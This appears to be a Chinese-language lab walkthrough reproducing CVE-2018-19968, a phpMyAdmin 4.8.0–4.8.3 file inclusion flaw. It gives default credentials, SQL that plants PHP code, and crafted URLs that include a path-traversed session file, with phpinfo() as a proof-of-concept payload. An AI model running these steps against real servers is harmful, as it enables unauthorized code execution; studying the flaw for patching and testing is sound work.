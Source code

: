 # CVE-2018-19968 Phpmyadmin 文件包含漏洞

### 一、漏洞简介

Transformation是phpMyAdmin中的一个高级功能，通过Transformation可以对每个字段的内容使用不同的转换，每个字段中的内容将被预定义的规则所转换。比如我们有一个存有文件名的字段 ‘Filename’，正常情况下 phpMyAdmin 只会将路径显示出来。但是通过Transformation我们可以将该字段转换成超链接，我们就能直接在 phpMyAdmin 中点击并在浏览器的新窗口中看到这个文件。

通常情况下Transformation的规则存储在每个数据库的pma__column_info表中，而在phpMyAdmin 4.8.0~4.8.3版本中，由于对转换参数处理不当，导致了任意文件包含漏洞的出现。

### 二、漏洞影响

Phpmyadmin 4.8.0~4.8.3

### 三、复现过程

1、首先登陆进后台，这里默认是root, toor

![](images/15893348849381.png)


2、创建数据库，并将PHP代码写入SESSION文件中


```sql
CREATE DATABASE foo;
CREATE TABLE foo.bar ( baz VARCHAR(100) PRIMARY KEY );
INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>';
```

访问`http://url/chk_rel.php?fixall_pmadb=1&db=foo`在数据库foo中生成phpMyAdmin的配置表。

![](images/15893349139499.png)


将篡改后的Transformation数据插入表pma__columninfo中将sess_中的替换成你的会话ID，即COOKIE中phpMyAdmin的值，抓包查看session id，如下

![](images/15893349212016.png)



```sql
INSERT INTO pma__column_info SELECT '1', 'foo', 'bar', 'baz', 'plop', 'plop', 'plop', 'plop', '../../../../../../../../tmp/sess_***','plop'; 
\#将sess_***中的***替换成你的会话ID，即COOKIE中phpMyAdmin的值
```

![](images/15893349319454.png)


然后访问

`http://url/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[multi_edit][][]=baz&clause_is_unique=1`

就能自动包含刚才插入数据库表的恶意代码
    
![](images/15893349586811.png)


